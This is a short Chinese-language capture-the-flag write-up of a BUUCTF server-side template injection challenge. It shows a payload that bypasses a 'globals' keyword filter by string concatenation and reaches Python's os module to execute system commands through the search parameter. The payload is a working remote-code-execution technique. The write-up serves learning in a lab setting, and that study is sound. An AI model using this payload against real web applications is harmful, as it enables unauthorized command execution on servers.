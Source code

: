 ### config 模板注入攻击

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67d80e8f88c538a9b5bff4d0.png)

打开网页提示让我们已注释方式提交 search

![](https://pic1.imgdb.cn/item/67d80ec288c538a9b5bff4dd.png)

测试发现存在模板注入

![](https://pic1.imgdb.cn/item/67d80f1688c538a9b5bff4ef.png)

注入 `config` 没被过滤

![](https://pic1.imgdb.cn/item/67d8107d88c538a9b5bff56d.png)

过滤了 `globals`

![](https://pic1.imgdb.cn/item/67d8111788c538a9b5bff585.png)

采用字符拼接绕过，通过 `__globals__` 可以访问到 `os` 模块

```python
# os.popen() 是 os 模块中的一个方法，用于执行系统命令并返回一个文件对象
# read() 是文件对象的方法，用于读取命令执行的结果
?search={{config.__init__['__global'+'s__'].os.popen("whoami").read()}}
```

![](https://pic1.imgdb.cn/item/67d8116588c538a9b5bff593.png)

修改命令疑似找到 flag

![](https://pic1.imgdb.cn/item/67d8129e88c538a9b5bff5e5.png)

成功拿到 flag

![](https://pic1.imgdb.cn/item/67d812e188c538a9b5bff5f7.png)